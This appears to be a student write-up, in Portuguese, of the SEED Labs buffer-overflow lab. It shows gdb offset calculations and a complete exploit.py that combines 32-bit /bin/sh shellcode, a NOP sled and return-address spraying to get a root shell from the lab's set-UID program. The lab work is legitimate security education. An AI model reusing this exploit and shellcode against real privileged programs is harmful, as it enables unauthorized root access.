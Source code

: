 
# SEED Labs - Buffer Overflow Attack Lab (Set-UID Version)

## Tarefa 1: Familiarizar-se com o *Shellcode*

* Depois de compilar o ficheiro *call_schellcode.c* com ```make```, foram gerados os ficheiros binários *a32.out* e *a64.out*

* Ao correr *a32.out* e *a64.out*, foi aberta uma *shell* funcional na qual podem ser corridos quaisquer comandos

## Tarefa 2: Compreender o Programa Vulnerável

* O conteúdo do ficheiro *badfile* deve ser o mesmo que o contéudo do ficheiro *a32.out*, dado que é esse o código binário executável a colocar na *stack* de maneira a correr *shellcode* e lançar uma *shell* - que, devido aos comandos presentes no Makefie, correrá com permissões *root*

## Tarefa 3: Lançar o Ataque num Programa de 32 bits (Nível 1)

* Tal como indicado no guião, criamos um ficheiro *badfile* com o comando ```touch badfile```, compilamos o programa em C com ```make``` e corremos o *debugger* com ```gdb stack-L1-dbg```

* No *debugger*, definimos um *break point* na função ```bof()``` com o comando ```b bof``` e executamos o programa (```run```)

* Verificamos que o *debugger* parou no *break point*, antes da chamada à função ```bof()``` - nesse momento, o valor de ```$ebp``` era 0xffffcf18

* Como pretendíamos verificar o valor de ```ebp``` depois da chamada à função anterior, corremos ```next``` e voltamos a imprimir o valor de ```$ebp``` (```p $ebp```), que passou a 0xffffcb08

* Imprimimos também o endereço-base do ```buffer``` (com ```p &buffer```), tendo obtido o valor 0xffffca9c

* Calculamos a diferença entre estes dois valores (0xffffcb08 - 0xffffca9c), tendo obtido como resultado 108 - a este valor somamos 4 (tamanho de cada registo numa arquitetura de 32 bits), obtendo 112: o *offset* entre o endereço-base do *buffer* e o local em que é guardado o endereço de retorno na *stack*

* Para lançar o ataque, editamos o ficheiro ```exploit.py```, especificamente:
* a variável ```shellcode``` passou a conter as instruções geradas anteriormente (na Tarefa 1) para criar uma *shell* numa arquitetura de 32 bits;

```python
shellcode = ( 
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

* a variável ```start``` passou a conter ```517 - len(shellcode)```, de maneira a colocar o conteúdo de ```shellcode``` no final do ficheiro *badfile* (```content[start:start + len(shellcode)] = shellcode```), ou seja, após os NOPs;

```python
start = 517 - len(shellcode)
```

* a variável ```ret``` passou a conter ```0xffffca9c + 280```, sendo que 0xffffca9c é o endereço-base do *buffer* e 280 é um valor obtido experimentalmente entre 196 e 570, que garante que o endereço de retorno aponta para a região de NOPs do ficheiro *badfile* imediatamente antes do *shellcode* - assim, sabendo que o tamanho do ficheiro *badfile* é 517 bytes, que a região de NOPs antes do endereço de retorno ocupa 112 deles, que o endereço de retorno ocupa 4 e o *shellcode* ocupa 27, conclui-se que a região de NOPs para a qual o endereço de retorno deve apontar ocupa 374 (517 - 112 - 4 - 27) bytes, o que vai de encontro aos extremos da gama obtidos na prática;

```python
ret = 0xffffca9c + 280
```

* a variável ```offset```, conforme calculado anteriormente, passou a conter o valor 112, que corresponde à distância entre o endereço-base do *buffer* e a posição do endereço de retorno na *stack*;

```python
offset = 112
```

* Assim, o ficheiro *exploit.py*, passou a conter o código seguinte:
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= ( 
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)        # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca9c + 280         # Change this number 
offset = 112                      # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

* Correndo *exploit.py* (```./exploit.py```) e *stack-L1* (```./stack-L1```), verificou-se que se obteve uma *shell* com permissões *root*, conforme visível na imagem abaixo

![Tarefa 3](/5-tarefa3.png)

* Em síntese, o ataque foi desenvolvido baseando-se na vulnerabilidade identificada no programa *stack.c* (*buffer overflow*), no conhecimento do endereço-base do *buffer* e do seu tamanho: o endereço de retorno "real/original" da função chamada (função *bof*) presente na *stack* -  cuja posição foi calculada a partir da diferença entre o endereço-base da variável *buffer* e a posição do *frame pointer* anterior na *stack* - foi substituído pelo endereço de memória no qual se encontra o *shellcode* (colocado na *stack* imediatamente acima da posição do endereço de retorno e precedido por uma série de NOPs para aumentar as probabilidades de sucesso em o alcançar/executar) para que, no retorno da função *bof*, esse código fosse executado

## Tarefa 4: Lançar o Ataque sem Saber o Tamanho do *Buffer* (Nível 2)

* Repetindo a parte inicial do processo anterior, corremos o *debugger* com ```gdb stack-L2-dbg``` e verificamos o endereço-base do *buffer*: 0xffffca60

* Para lançar o ataque de forma independente do tamanho do *buffer*, editamos o ficheiro ```exploit.py``` anterior, especificamente:

* a variável ```ret``` passou a conter ```0xffffca60 + 400```, sendo que 0xffffca60 é o endereço-base do *buffer* e 400 é um valor obtido experimentalmente, pelo menos acima de 200 (por ser o tamanho máximo do *buffer*) e somado de uma margem para ultrapassar parâmetros ou outros valores eventualmente presentes na *stack* - isto assegura que o endereço de retorno aponta para a região de NOPs do ficheiro *badfile* imediatamente antes do *shellcode*;

```python
ret = 0xffffca60 + 400
```

* a variável ```offset``` foi comentada por, neste caso, não se ter conhecimento da distância entre o endereço-base do *buffer* e a posição do endereço de retorno na *stack*, o que obrigou a que se fizesse *stack spraying* com o endereço de retorno pretendido, ou seja, um ciclo *for* para preencher todo o *buffer* com esse endereço de retorno - o ciclo itera desde o início até ao final do *buffer*, preenchendo-o, de 4 em 4 posições, com esse endereço (constituído por 4 bytes, devido à arquitetura de 32 bits);

```python
# offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(0, 200, 4):
  content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
```

* Assim, o ficheiro *exploit.py*, passou a conter o código seguinte:
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= ( 
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)        # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret = 0xffffca60 + 400            # Change this number 
# offset = 112                    # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(0, 200, 4):
  content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

* Correndo *exploit.py* (```./exploit.py```) e *stack-L2* (```./stack-L2```), verificou-se que se obteve uma *shell* com permissões *root*, conforme visível na imagem abaixo

![Tarefa 4](/5-tarefa4.png)


* Em resumo, o ataque foi construído partindo apenas da identificação da vulnerabilidade no programa *stack.c* (*buffer overflow*), do conhecimento do endereço-base do *buffer* e do intervalo no qual se encontra o seu tamanho (entre 100 e 200 bytes): o *buffer* foi preenchido com múltiplas cópias do endereço de memória no qual se encontra o *shellcode* (colocado na *stack* imediatamente acima da posição do endereço de retorno e precedido por uma série de NOPs para aumentar as probabilidades de sucesso em o alcançar/executar), com o intuito de que uma delas ocupasse na *stack* a posição correspondente ao endereço de retorno "real/original" da função chamada (função *bof*), isto é, entre o valor do *frame pointer* anterior e os parâmetros da função, de modo que, no retorno da função *bof*, esse código fosse executado
